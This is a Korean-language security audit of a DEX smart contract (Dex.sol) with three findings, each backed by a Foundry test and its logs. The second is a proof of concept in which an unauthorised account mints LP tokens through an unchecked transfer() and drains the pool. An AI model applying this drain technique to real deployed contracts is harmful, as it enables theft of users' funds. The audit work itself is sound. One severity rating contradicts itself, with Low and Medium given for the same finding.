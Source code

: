 ## 구민재

## 1. Initial liquidity under 1000 wei gets rounded

### 설명

문제 코드: Dex.sol line8, 31

```jsx
uint public constant MINIMUM_LIQUIDITY = 10**3;
...
function addLiquidity ... {
	...
  if (_totalSupply == 0) {
    LPTokenAmount = _sqrt((tokenXAmount + reserveX) * (tokenYAmount + reserveY) / MINIMUM_LIQUIDITY);
	...
        }
```

MINIMUM_LIQUIDITY라는 고정값 변수를 사용해 초기 LP토큰 발행량을 결정했다.

첫 LP토큰 발행시 1000 미만의 값은 버려지게 된다.

### 파급력

Low

-   산정 이유
    -   DEX 서비스 자체의 효용성이 떨어지는 버그이기 때문에 Low를 부여했다.
-   공격 시나리오

    -   첫 유동성 공급자가 공급한 두 토큰의 곱이 1000000으로 나누어떨어지지 않는 경우 무조건 문제가 발생한다. 이 경우 LP토큰 발행량의 1000 wei 아래의 값은 모두 버려진다.
    -   다만 이러한 문제가 발생했을 경우 DEX 유동성 공급자들이 유동성을 회수할 때 공급한 양보다 약간 더 적은 양을 받게 된다.
    -   DEX 서비스 자체에 문제가 생기기 때문에 Medium를 부여했다.

        ```jsx
        function testAddLiquidity1() external {
          uint firstLPReturn = dex.addLiquidity(500 ether, 1 ether, 0);
          emit log_named_uint("firstLPReturn", firstLPReturn);

          uint secondLPReturn = dex.addLiquidity(1 ether, 0.002 ether, 0);
          emit log_named_uint("secondLPReturn", secondLPReturn);

          (uint tx, uint ty) = dex.removeLiquidity(secondLPReturn, 0, 0);
          emit log_named_uint("second LP remove", tx);
          emit log_named_uint("second LP remove", ty);

          assertEq(tx, 1 ether);
          assertEq(ty, 0.002 ether);
        }

        ```

        ```jsx
        [FAIL. Reason: Assertion failed.] testAddLiquidity1() (gas: 258781)
        Logs:
          firstLPReturn: 707106781186547524
          secondLPReturn: 1414213562373095
          second LP remove: 999999999999999966
          second LP remove: 1999999999999999
          Error: a == b not satisfied [uint]
                Left: 999999999999999966
               Right: 1000000000000000000
          Error: a == b not satisfied [uint]
                Left: 1999999999999999
               Right: 2000000000000000
        ```

-   난이도

    -   외부 공격자보다는 첫 유동성을 공급하는 DEX service provider로 인해 발생할 가능성이 높다.

-   발생할 수 있는 피해
    -   유동성 공급자들이 제 공급량을 찾아가지 못하므로 DEX의 사용성이 매우 떨어진다.

### 해결 방안

-   문제가 되는 코드에서 MINIMUM_LIQUIDITY 변수를 삭제하면 해결 가능하다.

## 2. No authority check for LP mint

### 설명

문제 코드: Dex.sol line106

transfer() 함수가 LP토큰을 mint해주는 중요한 역할을 하는 함수임에도 불구하고 권한 체크를 해주지 않았다. 따라서 누구나 접근 가능하며, 원하는 만큼의 LP토큰을 발행하고 그만큼 유동성 풀에 공급된 토큰을 탈취할 수 있다.

### 파급력

Critical

-   산정 이유
    -   누구든 접근할 수 있으며, 피해 규모 또한 크기 때문에 Critical을 부여했다.
-   공격 시나리오

    -   tester1이 유동성 공급을 전혀 하지 않은 상태에서 transfer() 함수를 통해 LP토큰을 자신에게 민팅하였고, 그 토큰을 이용해 유동성 풀에 공급된 전체 토큰을 탈취하였다.

    ```jsx
    function testTransfer() external {
      uint firstLPReturn = dex.addLiquidity(10000 ether, 10000 ether, 0);
      emit log_named_uint("firstLPReturn", firstLPReturn);

      address tester1 = vm.addr(1);
      uint tester1_balanceX_before = tokenX.balanceOf(tester1);
      uint tester1_balanceY_before = tokenY.balanceOf(tester1);
      emit log_named_uint("tester1's token X balance", tester1_balanceX_before);
      emit log_named_uint("tester1's token Y balance", tester1_balanceY_before);
      vm.startPrank(tester1);
          // vm.expectRevert("you are not authorized for LP mint.");
          dex.transfer(tester1, 10000 ether);
          dex.removeLiquidity(10000 ether, 1 ether, 1 ether);
          uint tester1_balanceX = tokenX.balanceOf(tester1);
          uint tester1_balanceY = tokenY.balanceOf(tester1);
          emit log_named_uint("tester1's token X balance", tester1_balanceX);
          emit log_named_uint("tester1's token Y balance", tester1_balanceY);
      vm.stopPrank();
    }
    ```

    ```jsx
    [PASS] testTransfer() (gas: 285355)
    Logs:
      firstLPReturn: 10000000000000000000
      tester1's token X balance: 0
      tester1's token Y balance: 0
      tester1's token X balance: 9990009990009990009990
      tester1's token Y balance: 9990009990009990009990
    ```

-   공격 난이도
    -   누구나 접근 가능하므로, 매우 쉽다.
-   발생할 수 있는 피해
    -   유동성 공급 여부와 상관없이 누구나 유동성 토큰을 발행할 수 있으며, 발행한 토큰의 양만큼 회수가 가능하다. 따라서 DEX에 공급된 자산 전부를 탈취할 수 있다.

### 해결 방안

-   transfer 함수의 접근 권한을 address(this)로 제한하면 해결된다.
    ```jsx
    function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) {
      require(msg.sender == address(this), "you are not authorized");
      _mint(to, lpAmount);
      return true;
    }
    ```

## 3. Swap over tolerance

### 설명

문제 코드: Dex.sol swap 함수

swap의 규모가 커질 경우 0.01%의 tolerance를 벗어난 거래가 발생한다.

### 파급력

Informational

-   산정 이유
    -   외부 공격이 아닌 컨트랙트 자체의 문제점이다.
    -   swap의 규모가 매우 클 때만 발생한다.
    -   swap 최대치인 60000 ether일 경우에도 0.05%의 fee를 발생시켰다.
-   공격 시나리오

    ```jsx
    function testSwap1() external {
      dex.addLiquidity(3000 ether, 4000 ether, 0);
      dex.addLiquidity(30000 ether * 2, 40000 ether * 2, 0);

      // x -> y
      uint output = dex.swap(60000 ether, 0, 0);

      uint poolAmountX = 60000 ether + 3000 ether;
      uint poolAmountY = 80000 ether + 4000 ether;

      int expectedOutput = -(int(poolAmountX * poolAmountY) / int(poolAmountX + 60000 ether)) + int(poolAmountY);
      expectedOutput = expectedOutput * 999 / 1000; // 0.1% fee
      uint uExpectedOutput = uint(expectedOutput);

      emit log_named_int("expected output", expectedOutput);
      emit log_named_uint("real output", output);

      bool success = output <= (uExpectedOutput * 10001 / 10000) && output >= (uExpectedOutput * 9999 / 10000); // allow 0.01%;
      assertTrue(success, "Swap test fail 1; expected != return");
    }
    ```

    ```jsx
    [FAIL. Reason: Assertion failed.] testSwap1() (gas: 245828)
    Logs:
      expected output: 40934634146341463414634
      real output: 40954612005856515373352
      Error: Swap test fail 1; expected != return
      Error: Assertion Failed
    ```

    -   매우 큰 양의 토큰을 스왑시키면 0.01%를 넘어가는 수수료가 발생한다.

-   공격 난이도
    -   공격자를 요하지 않는 내부 로직 문제이다.

### 해결 방법

-   기존 컨트랙트는 스왑할 토큰의 양에서 0.01%를 제한 만큼을 스왑시킨 결과값을 사용하고 있다.
-   스왑할 토큰의 양을 그대로 두고 나온 값에서 0.01%를 제한 로직으로 바꾸면 해결된다.

